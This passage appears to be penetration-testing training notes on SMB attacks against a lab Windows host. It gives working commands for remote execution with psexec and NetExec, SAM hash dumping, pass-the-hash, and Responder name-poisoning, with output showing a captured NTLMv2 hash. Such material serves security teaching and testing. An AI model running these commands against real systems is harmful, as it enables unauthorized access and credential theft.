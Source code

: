 Impacket PsExec
```shell
impacket-psexec administrator:'Password123!'@10.10.110.17
```

NetExec
```shell
nxc smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

Enumerating Logged-on Users
```shell
nxc smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

Extract Hashes from SAM Database
```shell
nxc smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

##### Pass-the-Hash (PtH)

```shell
nxc smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

##### Forced Authentication Attacks

We can also abuse the SMB protocol by creating a fake SMB Server to capture users' [NetNTLM v1/v2 hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4).

The most common tool to perform such operations is the `Responder`. [Responder](https://github.com/lgandx/Responder) is an LLMNR, NBT-NS, and MDNS poisoner tool with different capabilities, one of them is the possibility to set up fake services, including SMB, to steal NetNTLM v1/v2 hashes. In its default configuration, it will find LLMNR and NBT-NS traffic. Then, it will respond on behalf of the servers the victim is looking for and capture their NetNTLM hashes.

```shell
sudo responder -I ens33

...

[+] Listening for events... 

[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Domain Master Browser)
[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Browser Election)
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[*] [LLMNR]  Poisoned answer sent to 10.10.110.17 for name mysharefoder
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : WIN7BOX\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:997b18cc61099ba2:3CC46296B0CCFC7A231D918AE1DAE521:0101000000000000B09B51939BA6D40140C54ED46AD58E890000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000004289286EDA193B087E214F3E16E2BE88FEC5D9FF73197456C9A6861FF5B5D3330000000000000000
```
